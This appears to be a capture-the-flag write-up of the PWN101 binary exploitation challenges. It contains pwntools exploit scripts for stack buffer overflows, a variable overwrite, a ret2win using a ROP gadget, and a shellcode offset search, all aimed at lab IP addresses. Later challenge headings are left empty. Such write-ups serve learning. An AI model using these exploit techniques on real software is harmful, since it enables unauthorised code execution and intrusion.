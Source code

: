 # PWN101

### Challenge 1 - pwn101
The goal of this task was simply to overflow the buffer, I found that 100 characters were more than enough to do that, so I developed the following code:

    from pwn import *
    
    ip = "10.10.114.216"
    port = 9001
    p = remote(ip,port)
    
    offset = 100
    payload = b"A"*offset
    
    p.sendline(payload)
    
    p.interactive()
![image](https://github.com/user-attachments/assets/2e84d354-224c-4fa8-b4b9-86305ffa26e5)<br />

### Challenge 2 - pwn101
Let's disassemble the binary in IDA:<br />
![image](https://github.com/user-attachments/assets/29a5aca3-d0a8-45cb-b047-ef27bc06936c)<br />
There's a buffer stored at rbp+var_70, and `var_70` is at -70h, which is 112 bytes from the beginning of the stack. Then, var_8 is at -8h, and var_4 is at -4h. To overwrite var_8 and var_4 I need an offset of 112 - 8 = 104 bytes. Then I need to overwrite these two variables with the values provided by the program.<br />
So I developed the following pwntools exploit:

    from pwn import *
    from struct import pack
    
    #p = process("./pwn102-1644307392479.pwn102")
    ip = "10.10.109.116"
    port = 9002
    
    p = remote(ip,port)
    
    offset = 104  # Offset corretto per riempire il buffer fino alle variabili
    payload = b"A" * offset
    payload += pack("<I", 0x0C0D3)   # Scriviamo su var_8 (prima nello stack)
    payload += pack("<I", 0x0C0FF33) # Scriviamo su var_4 (dopo var_8)
    
    p.sendline(payload)
    p.interactive()
`pack("<I", 0x0C0D3)` outputs the address in little endian format:<br />
![image](https://github.com/user-attachments/assets/4910ea60-6ed6-4121-90f0-d7daad62cea0)<br />

### Challenge 3 - pwn101
If I look at the binary with pwngdb, I can see that there's a function called `admins_only`:<br />
![image](https://github.com/user-attachments/assets/f0727e08-4d5a-4075-9a39-88c2bb520966)<br />
And this is the content of that function.<br />
![image](https://github.com/user-attachments/assets/e435b351-78ed-42d4-8b7e-41c169d132a0)<br />
Also, If I use checksec:<br />
![image](https://github.com/user-attachments/assets/bb12280d-02b0-47bd-a102-ab5704cce4b6)<br />
Only NX is enabled, which is not a problem. Since the binary is not PIE, the address of the function `admins_only` is alywas the same. To find it out, on gdb, run `info functions admins_only`. The address is `0x0000000000401554`.<br />
Now I need to find the offset to overflow the RIP. Using the binary, I learned that the point that is vulnerable to buffer overflow is in the "general" section. So I first have to press `3` to go in the general section, and then I can overflow a buffer and get a segmentation fault. To find the offset to this segmentation fault I used `cyclic` inside pwngdb:<br />
![image](https://github.com/user-attachments/assets/e268a98f-a9fc-45de-bc70-bef0a7150bee)<br />
The offset is 40 bytes. So I developed the following exploit:<br />

    from pwn import *
    
    #p = process("./pwn103-1644300337872.pwn103")
    ip = "10.10.109.116"
    port = 9003
    
    p = remote(ip,port)
    
    elf = ELF("./pwn103-1644300337872.pwn103")
    
    rop = ROP(elf)
    
    ret_addr = rop.find_gadget(["ret"])[0]
    
    p.sendline(b"3")
    
    offset = 40
    
    payload = b"A"*40
    payload += p64(ret_addr)
    payload += p64(0x0000000000401554)
    
    p.sendline(payload)
    
    p.interactive()
This code first sends the command `3`, and then sends the payload. Notice that I had to add a `ret` gadget because of stack alignment issues.<br />
![image](https://github.com/user-attachments/assets/31ffefbd-edd5-4b2d-ab65-04c08259206e)<br />

### Challenge 4 - pwn101
The program behaves like this: <br />
![image](https://github.com/user-attachments/assets/d614f503-2876-4121-9ae3-e52dc651ce58)<br />
Looking at the binary, it doesn't seem to contain any vulnerable function:<br />
![Screenshot 2025-03-17 143411](https://github.com/user-attachments/assets/af57de69-c1b3-4181-ad72-2f0808a5c1cc)<br />
However it is leaking the address of the buffer that I'm going to overflow. Also, if I run checksec, I get this:<br />
![Screenshot 2025-03-17 143800](https://github.com/user-attachments/assets/34041018-4b45-4eba-a1f7-a685a20635fc)<br />
The stack is executable. This means that I can overflow the buffer with shellcode, and then overwrite the RIP with the address of the shellcode.<br />
Let's find the offset. I use the following code to do that:

    from pwn import *
    
    io = process('./pwn104-1644300377109.pwn104')
    #print(io.recvregex(b':')) # read until we get the prompt
    
    io.recvline()
    io.sendline(cyclic(3000))
    io.wait()
    core = io.corefile
    stack = core.rsp
    info("rsp = %#x", stack)
    pattern = core.read(stack, 4)
    rip_offset = cyclic_find(pattern)
    info("rip offset is %d", rip_offset)
![image](https://github.com/user-attachments/assets/50af6090-9313-455e-a70e-43e7a234caac)<br />
So the offset is `88`. The problem is that the address of the buffer changes at every execution. I don't really now why. Checksec says that the binary is not PIE, so it shouldn't be like that. Maybe I'm missing something. <br />
But it's not important. Since the program leaks the address of the buffer, I can use that as a reference.

### Challenge 5 - pwn101

### Challenge 6 - pwn101

### Challenge 7 - pwn101

### Challenge 8 - pwn101

### Challenge 8 - pwn101

### Challenge 10 - pwn101
